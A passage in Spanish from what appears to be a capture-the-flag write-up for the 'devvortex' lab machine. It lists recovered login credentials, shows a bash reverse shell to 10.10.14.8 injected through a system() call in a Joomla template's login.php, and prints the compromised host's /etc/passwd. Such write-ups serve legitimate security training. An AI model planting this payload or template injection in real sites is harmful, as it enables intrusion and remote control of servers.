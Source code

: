 
obtenemos el siguiente usuario y contrasena:

user: lewis
password: P4ntherg0t1n5r3c0n##

creamos la reverse shell con el siguiente comando en el archivo login.php

ubicado en system/administrator templates/atum

system('bash -c "bash -i >& /dev/tcp/10.10.14.8/443 0>&1"');

realizamos un cat al etc/passwd para ver los usuarios

www-data@devvortex:~/dev.devvortex.htb/administrator$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
fwupd-refresh:x:113:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
logan:x:1000:1000:,,,:/home/logan:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false

revisamos el directorio home
